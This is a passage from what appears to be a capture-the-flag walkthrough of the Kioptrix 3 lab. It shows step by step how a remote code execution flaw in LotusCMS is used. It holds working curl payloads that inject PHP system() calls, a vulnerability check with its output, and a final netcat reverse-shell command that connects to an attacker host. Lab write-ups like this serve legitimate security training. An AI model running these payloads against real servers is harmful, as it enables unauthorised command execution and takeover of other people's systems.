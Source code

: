 	![](images/Pasted%20image%2020220123184550.png)
	- LotusCMS
3. Search for LotusCMS Exploits
	- [Reference](https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh)
4. Manual Exploit
	1. Payload
		```
		curl http://192.168.1.107/index.php --data "page=index');${system('COMMAND TO EXECUTE')};#"
		```
	2. URL Encoded Payload
		```
		curl http://192.168.1.107/index.php --data "page=index%27%29%3B%24%7Bsystem%28%27COMMAND TO EXECUTE%27%29%7D%3B%23%22
		```
		![](images/Pasted%20image%2020220123190400.png)
	3. URL Encode "COMMAND TO EXECUTE"
		```
		┌──(root💀kali)-[~/vulnHub/kioptrix3/192.168.1.95]
		└─# hURL --URL "echo -n Vulnerability Found"
		Original    :: echo -n Vulnerability Found
		URL ENcoded :: echo%20-n%20Vulnerability%20Found
		```
	4. Check if target is susceptible 
		```
		┌──(root💀kali)-[~/vulnHub/kioptrix3/192.168.1.95]
		└─# curl http://192.168.1.107/index.php --data "page=index%27%29%3B%24%7Bsystem%28%27echo%20-n%20Vulnerability%20Found%27%29%7D%3B%23%22" | grep -ioP "vulnerability found"
		  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
										 Dload  Upload   Total   Spent    Left  Speed
		100  1926    0  1838  100    88   802k  39338 --:--:-- --:--:-- --:--:--  940k
		Vulnerability Found
		```
	5. Execute Reverse Shell
		```
		curl http://192.168.1.107/index.php --data "page=index%27%29%3B%24%7Bsystem%28%27nc+192.168.1.1+4444+-e+/bin/bash%27%29%7D%3B%23%22
		```